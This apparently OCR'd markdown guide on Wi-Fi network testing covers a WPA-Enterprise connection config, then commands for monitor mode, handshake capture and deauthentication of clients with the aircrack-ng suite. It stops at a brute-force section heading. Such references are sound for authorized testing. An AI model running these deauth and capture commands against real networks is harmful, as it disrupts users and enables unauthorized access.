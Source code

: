 **Example:**
Create a WPA-Enterprise configuration file (`wpa-ent.conf`):
```
network={
    ssid="WPA_Enterprise_Network"
    key_mgmt=WPA-EAP
    eap=PEAP
    identity="your_username"
    password="your_password"
    phase2="auth=MSCHAPV2"
}
```
Run the commands:
```
iwconfig ath0 essid "WPA_Enterprise_Network"
ifconfig ath0 up
wpa_supplicant -B -i ath0 -c wpa-ent.conf
dhclient ath0
```
### Wi-Fi Network Testing in Linux

Testing Wi-Fi networks in Linux involves a series of commands to place wireless interfaces into monitor mode, capture handshakes, perform brute force attacks, and conduct denial-of-service (DoS) attacks. This guide provides a structured approach to these tasks using common tools such as `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`, `mdk3`, and others.
#### Setting Up Monitor Mode
To begin testing, you need to place your wireless interface into monitor mode. This allows you to capture all wireless traffic in your vicinity.

|Command|Description|
|---|---|
|`airmon-ng stop ath0`|Stop any processes on `ath0` to prepare for monitor mode|
|`airmon-ng start wifi0`|Start monitor mode on `wifi0` interface|
|`iwconfig ath0 channel $CH`|Set the channel on `ath0` to channel `$CH`|

**Example:**
```
airmon-ng stop ath0
airmon-ng start wifi0
iwconfig ath0 channel 6
```
#### Capturing Client Handshake
Capturing the WPA/WPA2 handshake is crucial for performing brute force attacks.

|Command|Description|
|---|---|
|`airodump-ng -c $CH --bssid $AP -w file ath0`|Capture traffic on channel `$CH` from access point `$AP` and save to `file`|
|`aireplay-ng -0 10 -a $AP -c $CH ath0`|Send 10 de-authentication packets to force clients to reconnect, capturing the handshake|

**Example:**
```
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture ath0
aireplay-ng -0 10 -a 00:11:22:33:44:55 -c 00:22:33:44:55:66 ath0
```
#### Brute Force Handshake Attack
Once the handshake is captured, a brute force attack can be attempted to find the WPA-PSK.
